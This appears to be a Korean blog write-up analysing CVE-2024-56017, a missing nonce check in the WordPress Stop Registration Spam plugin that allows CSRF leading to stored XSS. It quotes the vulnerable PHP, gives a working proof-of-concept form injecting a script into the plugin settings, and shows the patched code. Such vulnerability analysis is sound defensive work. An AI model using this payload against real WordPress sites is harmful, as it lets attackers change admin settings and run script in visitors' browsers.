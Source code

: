 ```yaml
---
title: "[CVE-2024-56017] 취약점 분석 보고서"
description: "CVE-2024-56017 WordPress의 Stop Registration Spam 플러그인에서 nonce 확인 누락에 의한 CSRF to XSS"
author: jh117jh
date: 2025-01-06 18:20:00 +0900
categories: [One-Day 분석, WordPress]
tags: [빡공팟, 콘테스트 네뷸라, CVE-2024-56017]
image: assets/img/wordpress-thumbnail.png
exclude_img: true
---
```


## **1. CVE-2024-56017이란?**

**CVE ID:** CVE-2024-56017  
**CVSS 심각도 점수:** 7.1  
**영향을 받는 버전:** ≤ 1.23  

워드프레스의 "Stop Registration Spam" 플러그인에서 nonce 검증이 누락되어 CSRF 취약점이 발생하며, 이로 인해 인증되지 않은 공격자가 사이트 관리자를 속여 악의적인 웹 스크립트를 주입할 수 있습니다. 예를 들어, 관리자가 특정 링크를 클릭하도록 유도하면 공격이 실행될 수 있다.

[CVE-2024-56017](https://nvd.nist.gov/vuln/detail/CVE-2024-56017)  

## **2. 환경 구축**

XAMPP 3.3.0, Wordpress 6.6.2, Stop Registration Spam 1.23

![image.png](/assets/posts/one-day/2025-01-06/image1.png)

Stop Registration Spam을 설치하고 
설정에서 스팸 방지 질문을 작성해준다.

![image.png](/assets/posts/one-day/2025-01-06/image2.png)

해당 질문을 작성하면 회원가입 페이지에 스팸 방지 입력란이 작성된다.

![image.png](/assets/posts/one-day/2025-01-06/image3.png)

## **3. 분석**

해당 플러그인은 무분별한 회원 가입으로 인한 스팸을 방지하기 위해 회원 가입 절차에 질문을 넣어 bot의 진입을 막는 기능이다.

```php
// Read and Save value
if( isset($_POST[ $hidden_field_name ]) && $_POST[ $hidden_field_name ] == 'Y' ) {
    $opt1_val = $_POST[ $data_field_name1 ];
		$opt2_val = $_POST[ $data_field_name2 ];
		$opt3_val = $_POST[ $data_field_name3 ];
    update_option( $opt1_name, $opt1_val );
		update_option( $opt2_name, $opt2_val );
		update_option( $opt3_name, $opt3_val );	
```
```html
//Display Question
<p><?php _e("Question:", 'Stop Registration Spam' ); ?> 
<input type="text" name="<?php echo $data_field_name1; ?>" value="<?php echo $opt1_val; ?>" size="60">
</p>
<p><?php _e("Answer:", 'Stop Registration Spam' ); ?> 
<input type="text" name="<?php echo $data_field_name2; ?>" value="<?php echo $opt2_val; ?>" size="20">
</p>
<p><?php _e("Message to display on failure:", 'Stop Registration Spam' ); ?> 
<input type="text" name="<?php echo $data_field_name3; ?>" value="<?php echo $opt3_val; ?>" size="60">
</p>
```

이러한 질문을 설정하는 로직에서 nonce값을 확인하지 않아 단순히 post형식의 데이터 전송으로 설정 값을 변경할 수 있으며 해당 질문 출력에 대한 이스케이프가 되지 않아 CSRF to XSS까지 발생되고 있다.

## **4. POC**

```html
<form action="/wordpress/wp-admin/options-general.php?page=stop_registration_spam_options" method="post">
  <input type="hidden" name="srs_submit_check" value="Y">
  <input type="hidden" name="srs_captcha_q" value="<script>alert(0)</script>">
  <input type="hidden" name="srs_captcha_a" value="123">
  <input type="hidden" name="srs_captcha_h" value="bye">
  <input type="submit" name="Submit" value="변경사항 저장">
</form>
```

해당 form형식으로 워드프레스에 글을 게시하면

![image.png](/assets/posts/one-day/2025-01-06/image4.png)

위와 같은 버튼이 생기고 관리자가 해당 버튼을 클릭하는 순간 

![image.png](/assets/posts/one-day/2025-01-06/image5.png)

해당 설정 값이 변경되어 회원 가입을 진행하는 다른 사용자들에게 XSS가 발생된다.

![image.png](/assets/posts/one-day/2025-01-06/image6.png)   
![image.png](/assets/posts/one-day/2025-01-06/image7.png)

## **5. 패치**

```php
if( isset($_POST[ $hidden_field_name ]) && $_POST[ $hidden_field_name ] == 'Y' ) {
	 	
	 	    if ( ! isset( $_POST['srs_opts_nonce'] ) || ! wp_verify_nonce( $_POST['srs_opts_nonce'], 'srs_submit_options' )) {
  	        error_log('nonce failure die');
	 	        exit;
	 	    }
	 	    else {
	 	
	 	        // Read their posted value
	 	        $opt1_val = $_POST[ $data_field_name1 ];
	 	        $opt2_val = $_POST[ $data_field_name2 ];
	 	        $opt3_val = $_POST[ $data_field_name3 ];
	 	        // Save the posted value in the database
	 	        update_option( $opt1_name, $opt1_val );
	 	        update_option( $opt2_name, $opt2_val );
	 	        update_option( $opt3_name, $opt3_val );
            }
```

```html
<p><?php _e("Question:", 'Stop Registration Spam' ); ?> 
<input type="text" name="<?php echo $data_field_name1; ?>" value="<?php echo htmlspecialchars($opt1_val); ?>" size="60">
<p><?php _e("Answer:", 'Stop Registration Spam' ); ?> 
<input type="text" name="<?php echo $data_field_name2; ?>" value="<?php echo htmlspecialchars($opt2_val); ?>" size="20">
</p>
<p><?php _e("Message to display on failure:", 'Stop Registration Spam' ); ?> 
<input type="text" name="<?php echo $data_field_name3; ?>" value="<?php echo htmlspecialchars($opt3_val); ?>" size="60">
</p>

<?php wp_nonce_field( 'srs_submit_options', 'srs_opts_nonce' ); ?>
```

1.24 버전부터는 nonce를 체크하는 기능과 출력 메시지에 이스케이프 처리가 패치 되었다.